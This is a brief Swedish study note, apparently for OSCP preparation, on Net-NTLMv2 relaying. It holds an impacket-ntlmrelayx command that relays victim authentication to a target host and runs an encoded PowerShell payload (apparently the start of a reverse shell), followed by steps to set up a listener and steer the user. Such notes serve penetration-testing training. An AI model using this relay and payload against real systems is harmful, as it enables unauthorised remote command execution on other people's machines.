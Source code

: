 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/7. Password Attacks/8. Net-NTLMv2 Relaying/"}
---
```


- I stället för att styra en autentisiering till en egen uppsatt SMB-server, dirigeras den till en annan maskin, och om användaren har tillgång dit kommer den göra som vi säger när den connectar.
- Görs med 'ntlmrelayx'

-------------

### Net-NTLMv2 Relaying:
1. Sätt upp Impacket-server på Kali:
```bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t <target-ip> -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```
2. Sätt upp lyssnare.
3. Dirigera användare
4. Win!